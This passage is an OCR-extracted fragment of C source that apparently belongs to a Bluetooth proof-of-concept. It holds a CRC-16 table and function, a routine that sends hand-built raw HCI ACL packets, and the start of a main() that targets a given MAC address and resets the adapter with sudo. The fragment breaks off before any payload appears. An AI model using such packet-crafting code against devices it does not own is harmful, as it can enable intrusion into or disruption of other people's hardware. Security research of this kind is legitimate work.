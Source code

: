 ```c++
  0xb401, 0x74c0, 0x7580, 0xb541, 0x7700, 0xb7c1, 0xb681, 0x7640,
  0x7200, 0xb2c1, 0xb381, 0x7340, 0xb101, 0x71c0, 0x7080, 0xb041,
  0x5000, 0x90c1, 0x9181, 0x5140, 0x9301, 0x53c0, 0x5280, 0x9241,
  0x9601, 0x56c0, 0x5780, 0x9741, 0x5500, 0x95c1, 0x9481, 0x5440,
  0x9c01, 0x5cc0, 0x5d80, 0x9d41, 0x5f00, 0x9fc1, 0x9e81, 0x5e40,
  0x5a00, 0x9ac1, 0x9b81, 0x5b40, 0x9901, 0x59c0, 0x5880, 0x9841,
  0x8801, 0x48c0, 0x4980, 0x8941, 0x4b00, 0x8bc1, 0x8a81, 0x4a40,
  0x4e00, 0x8ec1, 0x8f81, 0x4f40, 0x8d01, 0x4dc0, 0x4c80, 0x8c41,
  0x4400, 0x84c1, 0x8581, 0x4540, 0x8701, 0x47c0, 0x4680, 0x8641,
  0x8201, 0x42c0, 0x4380, 0x8341, 0x4100, 0x81c1, 0x8081, 0x4040
};

uint16_t crc16(uint16_t crc, const void *buf, size_t size) {
  const uint8_t *p;

  p = buf;

  while (size--)
    crc = crc16_tab[(crc ^ (*p++)) & 0xFF] ^ (crc >> 8);

  return crc;
}

int hci_send_acl_data(int hci_socket, uint16_t hci_handle, void *data, uint16_t data_length) {
  uint8_t type = HCI_ACLDATA_PKT;
  uint16_t BCflag = 0x0000;
  uint16_t PBflag = 0x0002;
  uint16_t flags = ((BCflag << 2) | PBflag) & 0x000F;

  hci_acl_hdr hdr;
  hdr.handle = htobs(acl_handle_pack(hci_handle, flags));
  hdr.dlen = data_length;

  struct iovec iv[3];

  iv[0].iov_base = &type;
  iv[0].iov_len = 1;
  iv[1].iov_base = &hdr;
  iv[1].iov_len = HCI_ACL_HDR_SIZE;
  iv[2].iov_base = data;
  iv[2].iov_len = data_length;

  return writev(hci_socket, iv, sizeof(iv) / sizeof(struct iovec));
}

int main(int argc, char **argv) {
  if (argc != 2) {
    printf("Usage: %s MAC_ADDR\n", argv[0]);
    return 1;
  }

  bdaddr_t dst_addr;
  str2ba(argv[1], &dst_addr);

  printf("[*] Resetting hci0 device...\n");
  system("sudo hciconfig hci0 down");
  system("sudo hciconfig hci0 up");

  printf("[*] Opening hci device...\n");
  struct hci_dev_info di;
  int hci_device_id = hci_get_route(NULL);
  int hci_socket = hci_open_dev(hci_device_id);
  if (hci_devinfo(hci_device_id, &di) < 0) {
```